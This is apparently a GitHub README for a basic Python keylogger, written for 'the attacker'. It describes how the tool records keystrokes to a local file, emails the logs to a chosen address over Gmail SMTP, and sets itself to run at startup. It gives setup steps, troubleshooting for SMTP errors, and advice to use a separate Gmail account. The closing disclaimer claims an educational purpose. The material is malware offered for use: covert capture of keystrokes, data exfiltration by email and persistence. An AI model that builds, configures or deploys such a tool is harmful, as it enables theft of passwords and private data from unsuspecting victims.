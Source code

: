 # Keylogger

**DESCRIPTION:**

**Note that [L CTRL + F12] is the only way to stop the keylogger once it is running.**

This is a basic keylogger. It captures keystrokes and records them locally in a file ```keylogs.txt```.

After a certain number of keystrokes (specified by the attacker), the script will email ```keylogs.txt``` to a specified email address.

Additionally, immediately after the keylogger is stopped, the script will email ```keylogs.txt``` to a specified email address.

---

**INSTRUCTIONS:**

 - [Specify recipient address](https://github.com/bmattblake/Keylogger/blob/03cdb6ba52fdc4e172cd5e9594bc482c376670ff/keylogger.py#L27)
 - [Specify sender address](https://github.com/bmattblake/Keylogger/blob/03cdb6ba52fdc4e172cd5e9594bc482c376670ff/keylogger.py#L28)
 - [Enter sender email address password](https://github.com/bmattblake/Keylogger/blob/03cdb6ba52fdc4e172cd5e9594bc482c376670ff/keylogger.py#L29)
 - Run the program

---

**FEATURES:**

- Local Storage: Stores logs in a file ```keylogs.txt```.
- Email: Sends logs to a specified email address. Note: You must specify the following:
    - Sender email address
    - Sender email address account password
    - Recipient email address
    - SMTP server (default is ```smtp.gmail.com```)
    - Port number (default is 465)
- Program will automatically run at startup after it is manually executed once

---

**TROUBLESHOOTING:**

If your sender email address is a gmail account, and you are getting the following error:
```
smtplib.SMTPAuthenticationError: (535, b'5.7.8 Username and Password not accepted. Learn more at\n5.7.8  https://support.google.com/mail/?p=BadCredentials k125-20020a37a183000000b005f170f7e497sm4061876qke.47 - gsmtp')
```
Make sure that you have entered the corrected login creditials.

If the problem persists, you may have to allow less secure apps to access your google account. 

- You can find more information on this subject here: https://support.google.com/accounts/answer/6010255.
- ***DO NOT DISABLE THIS FEATURE ON YOUR PERSONAL GMAIL ACCOUNT***. Disabling this security feature will make your google account more vulnerable to attacks. Making an entirely new google account hat is not associated with your personal account(s) is recommended.

If you get the following error:
```
ssl.SSLError: [SSL: WRONG_VERSION_NUMBER] wrong version number (_ssl.c:1129)
```
You have two options:
 - Make sure that your port number is 465. Port 465 is used for implicit TLS.
 - If you do not wish to use port 465, change [this line of code](https://github.com/bmattblake/Keylogger/blob/d992c8f8be0de920a1887fe8953062fe032b82be/keylogger.py#L112) from:  
    ```server = smtplib.SMTP_SSL(SMTP_SERVER, PORT)```  
    to:  
    ```server = smtplib.SMTP(SMTP_SERVER, PORT)```
    - Note: Due to Google's strict security policies, you will not be able to send an eamil via ```smtp.gmail.com``` withought SSL/TLS 

---


**DISCLAIMER:**

This keylogger was made for educational purposes only. I do not condone any use of this keylogger for malicious intent.
